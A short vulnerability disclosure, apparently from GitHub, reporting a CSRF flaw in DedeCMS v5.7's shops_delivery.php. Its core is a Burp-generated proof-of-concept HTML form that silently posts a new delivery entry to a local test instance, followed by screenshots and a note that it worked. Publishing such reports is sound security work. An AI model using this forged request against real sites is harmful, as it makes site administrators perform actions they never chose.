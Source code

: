 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /src/dede/shops_delivery.php
![1](https://github.com/Hckwzh/cms/assets/128144400/0498e523-631f-4413-99c0-5049673e024b)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/shops_delivery.php" method="POST">
      <input type="hidden" name="do" value="add" />
      <input type="hidden" name="dname" value="cs" />
      <input type="hidden" name="price" value="0&#46;00" />
      <input type="hidden" name="des" value="" />
      <input type="hidden" name="imageField" value="�&#161;&#174;�&#174;&#164;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```
![2](https://github.com/Hckwzh/cms/assets/128144400/6154501f-da8a-4197-816e-1cb6baaf6b7b)



successed

![3](https://github.com/Hckwzh/cms/assets/128144400/7e848a3d-ea4e-4f0f-a759-54eb131290c6)
